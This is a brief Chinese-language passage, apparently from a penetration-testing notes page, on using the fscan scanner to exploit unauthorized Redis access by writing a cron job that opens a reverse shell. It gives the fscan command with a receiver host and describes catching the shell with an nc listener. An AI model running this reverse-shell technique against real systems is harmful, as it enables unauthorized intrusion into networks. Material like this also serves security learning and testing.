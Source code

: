    

   **-Fscan反弹shell**

   fscan强大的内网探测和利用神器，默认选项下扫描会对redis进行未授权访问，弱口令，权限检查等。

   存在漏洞可以直接利用fscan写入定时任务反弹shell

   ```
   fscan.exe -h 目标 -rs 接收端  
   ```

   ![image-20210906131420032](/assets/images/20210911/image-20210906131420032.png)

   接收端fscan开启nc监听，并成功接收shell

   ![image-20210906132302469](/assets/images/20210911/image-20210906132302469.png)
